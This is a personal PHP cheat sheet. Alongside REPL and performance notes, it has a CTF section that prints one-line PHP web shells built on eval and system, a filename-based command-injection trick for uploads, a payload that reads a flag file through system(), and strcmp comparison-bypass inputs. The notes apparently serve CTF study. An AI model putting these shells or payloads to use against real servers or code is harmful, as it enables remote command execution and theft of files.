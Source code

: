 # +

- [Online PHP editor \| Test code in 250\+ PHP versions](https://3v4l.org/)

- https://github.com/ctfs/write-ups-2015/tree/master/codegate-ctf-2015/web/owlur
- https://www.arneswinnen.net/2013/11/hack-lu-2013-ctf-wannabe-writeup-part-one-web-exploitation/
- http://php.net/manual/en/wrappers.php

```html
<script language=PHP>eval($_GET['q']);</script>
<?php print_r(scandir('/')) ?>
```

```html
<?php echo system($_GET['s']); ?>
```
    > uploaded as shell.png, then uploaded another file: ´cd uploads;cd 6a9btoq20khkn8ln5lfhuo6v62;cp 65-shell.png shell.php´.png

```
flag','..')+or+system('cat+templates/flag.php');//
```

# repl

```bash
php -a
```

- [GitHub \- apinstein/iphp: An interactive php shell \(REPL\) with support for readline, autocomplete, include/require, and fatal\-error tolerance\.](https://github.com/apinstein/iphp)

# server

```bash
php -S localhost:8000
```

# performance 

- https://news.ycombinator.com/item?id=2615183
    > As someone who optimized a piece of PHP code recently, there are a number of things I ran into that were counterintuitive wrt performance.
    > - array_key_exists is 5X slower than isset (though there are different semantics)
    > - direct string concatenation is 2X faster than using "implode"
    > - memoization can be a huge win since function calls are 5X slower than array accesses. (No inlining in PHP)
    >
    > Of course, these optimizations don't matter except in your hotspots. (Why we still have to have this disclaimer on HN puzzles me, but people seem to keep trotting out the usual Knuth quote out of context as a way to write off micro-optimization techniques in general.)
    > Also important to keep in mind:
    > - PHP has copy on write semantics for arrays. So if you set $foo = $bar (arrays), you don't incur any additional memory until you alter $foo. (Aside from the additional reference.) Once you change any entry of $foo, PHP makes a copy of the whole thing. (This can result in massive performance and memory bloat if you don't realize its happening.)
    > - PHP arrays are not arrays, but are a hybrid linear array and hashtable. ("one data structure to rule them all.") So, even a simple "array" of integers incurs more than what you'd expect memory wise. In fact, IIRC, an array of integers incurs approximately 100 bytes of memory for each entry. Ouch. There are extensions in new versions of PHP that allow you to use 'real' arrays. If you're stuck using normal PHP arrays, good luck trying to design optimized data structures for the problem at hand.
    > 
    > See also: http://phpbench.com/

# type juggling, weak comparison, magic hashes

```php
<?php
strcmp($_GET['user'], "admin") == 0
// => "admin1"

strcasecmp($_GET['secret'], "0x1337") == 0
// => ["1"]
```

# deserialization

- https://dpalbd.wordpress.com/ctf-writeup-serial-1/
- https://www.netsparker.com/blog/web-security/untrusted-data-unserialize-php/
- https://www.exploit-db.com/docs/english/44756-deserialization-vulnerability.pdf
- [GitHub \- galdeleon/35c3\_php: Solution for 35c3 php challenge](https://github.com/galdeleon/35c3_php)
    - ~/code/snippets/ctf/web/35c3_php/

# jail

- [GitHub \- splitline/PHPFuck: PHPFuck: \(\(\+\.^\)\) / Using only 7 different characters to write and execute php\.](https://github.com/splitline/PHPFuck)
- https://github.com/terjanq/Flag-Capture/blob/master/MeePwn%202018/omega/README.md#part2
- https://gist.github.com/terjanq/aa39a5a40b8d9b8a8e2a54e747715a2c
    - https://twitter.com/terjanq/status/1257276298550001664
